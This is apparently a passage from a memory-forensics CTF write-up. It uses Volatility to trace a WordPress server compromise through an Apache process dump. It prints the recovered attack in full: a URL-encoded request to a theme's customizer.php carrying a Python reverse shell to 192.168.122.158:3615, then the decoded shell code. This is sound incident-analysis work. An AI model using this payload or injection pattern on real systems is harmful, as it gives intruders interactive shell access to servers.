 We can notice something really strange, it could be dangerous:

```bash
$ vol.py --plugins=../plug_vol/ --profile=LinuxOdie_profilex64 -f memory.dmp linux_proc_maps -p 21733 > papache_customizerphp
$ cat papache_customizerphp| grep 7f0733fb        
0xffff9796baa41000    21733 apache2              0x00007f0733fae000 0x00007f0733fb4000 rw-                   0x0      0      0          0 
0xffff9796baa41000    21733 apache2              0x00007f0733fb4000 0x00007f0733fc4000 rwx                   0x0      0      0          0 
$ vol.py --plugins=../plug_vol/ --profile=LinuxOdie_profilex64 -f memory.dmp linux_dump_map -s 0x00007f0733fae000 -p 21733 -D .
Volatility Foundation Volatility Framework 2.6.1
Task       VM Start           VM End                         Length Path
---------- ------------------ ------------------ ------------------ ----
     21733 0x00007f0733fae000 0x00007f0733fb4000             0x6000 ./task.21733.0x7f0733fae000.vma
$ strings ./task.21733.0x7f0733fae000.vma | grep customizer.php
band/inc/customizer.php47
51%\GET /wp-content/themes/rock-band/inc/customizer.php?x=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.122.158%22,3615));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1
192.168.122.158 - - [27/Dec/2018:21:08:21 +0100] "GET /wp-content/themes/rock-band/inc/customizer.php?x=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.122.158%22,3615));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1" 500 185 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0"
```

After URL decoding the data (thanks CyberChef), beautify the python code, it looks to:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.122.158",3615))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

The code is explicit, it gives an interactive `/bin/sh` to the suspicious IP address (IP owns by Monique) through a network socket on TCP port 3615. I think we found the arbitrary code injected: command execution in PHP.

### Privilege escalation

We are starting to get a good look on actions made by Monique. However, there is something strange, what happened between the reverse shell and the backdoor? 

Monique got an access as __www-data__, not as __root__. She must be doing at least one privilege escalation.

